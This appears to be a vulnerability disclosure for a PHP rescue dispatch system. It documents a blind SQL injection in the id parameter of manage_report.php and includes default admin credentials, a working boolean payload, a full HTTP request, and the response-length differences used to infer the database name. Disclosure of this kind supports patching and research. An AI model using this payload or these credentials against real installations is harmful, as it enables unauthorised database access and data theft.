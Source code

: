 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File:  /rdms/admin/incident_reports/manage_report.php?id=

Vulnerability location: /rdms/admin/incident_reports/manage_report.php?id=,id

[+] Payload: /rdms/admin/incident_reports/manage_report.php?id=3%27%20and%20length(database())%20=7--+ // Leak place ---> id

Current database name: rdms_db,length is 7

```sql
GET /rdms/admin/incident_reports/manage_report.php?id=3%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

When length (database ()) = 6, Content-Length: 7315
![image](https://user-images.githubusercontent.com/54017627/170455359-2068f45f-9b18-4b01-a08d-add569addcb4.png)

![image](https://user-images.githubusercontent.com/54017627/170455445-f5533522-4f43-450b-9d7c-6eb7af91d667.png)

When length (database ()) = 7, Content-Length: 7726

![image](https://user-images.githubusercontent.com/54017627/170455306-e5cafb44-53c0-4441-af6b-c34a0a4883a7.png)

![image](https://user-images.githubusercontent.com/54017627/170455396-6fe1249a-4dd6-49b0-b614-da372a4b5e68.png)
